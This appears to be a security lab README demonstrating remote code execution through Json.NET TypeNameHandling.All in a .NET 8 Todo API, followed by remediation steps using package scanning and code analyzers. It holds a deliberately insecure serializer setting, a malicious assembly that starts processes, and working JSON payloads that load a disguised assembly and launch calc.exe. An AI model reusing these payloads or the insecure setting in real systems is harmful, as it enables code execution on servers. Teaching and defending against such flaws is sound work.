


# .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET.

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` json
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": 
        {
          "$type": "System.IO.FileInfo, System.IO.FileSystem",
          "fileName": "rce-test.txt"
        }
    }
}
```

## Load the malicious file

The first REST API call loads the malicious file using:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":
        {
          "$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
          "Path":"someimage.png"}
    }
}
```

The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` json
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.

    ``` bat
    dotnet list package --vulnerable
    ```

1. Execute the a check for transitive dependencies and observe the results.

    ``` bat
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers). Security rules are disabled by default. For a comprehensive list of security rules see [Security Warnings](https://learn.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/security-warnings?WT.mc_id=MVP_337682).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under:

    ``` bat
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```

1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilties.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Security rules are disabled by default.

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the Error List.

    

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` C#
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```C#
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```
